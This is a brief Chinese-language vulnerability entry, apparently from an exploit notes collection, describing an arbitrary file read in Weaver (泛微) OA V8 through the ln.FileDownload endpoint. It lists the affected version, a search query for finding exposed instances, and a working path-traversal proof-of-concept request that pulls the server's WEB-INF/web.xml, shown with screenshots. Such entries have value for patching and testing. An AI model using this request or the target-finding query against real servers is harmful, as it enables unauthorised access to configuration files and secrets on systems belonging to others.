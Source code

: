 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)



